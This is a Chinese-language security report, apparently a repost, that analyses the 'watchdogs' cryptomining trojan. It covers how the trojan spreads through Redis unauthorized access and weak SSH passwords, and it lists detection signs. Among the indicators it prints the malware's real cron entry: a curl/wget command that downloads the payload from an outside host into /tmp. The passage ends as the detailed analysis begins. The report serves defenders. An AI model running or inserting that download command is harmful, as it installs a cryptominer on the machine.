 > 原文链接: https://www.anquanke.com//post/id/171692 


# watchdogs挖矿木马综合分析报告


                                阅读量   
                                **295722**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                    



[![](https://p2.ssl.qhimg.com/dm/1024_538_/t0176d1eca0cb5db3a5.jpg)](https://p2.ssl.qhimg.com/dm/1024_538_/t0176d1eca0cb5db3a5.jpg)



2019年2月21日晚，默安科技应急响应中心接到某合作伙伴的求助电话，针对被watchdogs病毒感染的机子进行排查和分析，并最终给出了针对该类型的挖矿病毒的清除工具，帮助客户清除病毒文件，修复被感染机子，挽回经济损失。经默安科技影武者实验室安全研究员分析发现，该病毒是通过Redis未授权访问漏洞及ssh弱口令进行突破植入，随后释放挖矿木马进行挖矿操作，并对内外网主机进行redis漏洞攻击及ssh暴力破解攻击。该病毒有以下几个特征信息：

1、查看netstat命令是否被删除。

2、查看/root/.ssh中的密钥信息是否被清除。

3、查看计划任务，是否存在以下任务信息：

```
curl -fsSL http://thyrsi.com/t6/672/1550667515x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667515x1822611209.jpg -O /tmp/watchdogs
```

4、使用busybox检查可以进程：

```
busybox ps -ef|grep watchdogs

busybox ps -ef|grep ksoftirqds
```



如果包含则说明中毒。

5、病毒程序执行后会消耗大量的主机cpu资源。

请各位系统维护人员检查各自机子是否有以上特征，如果有以上特征，可联系默安科技安全应急响应中心获取病毒清除工具。

下面对该病毒进行详细地分析。



## 0x1 Watchdogs程序

由于病毒程序使用golang编写的，做了一些混淆操作，ida无法识别其中的符号信息，需要手动修复一下，可使用以下idapython脚本进行修复，修复后可还原一部分方法名，便于之后的分析：
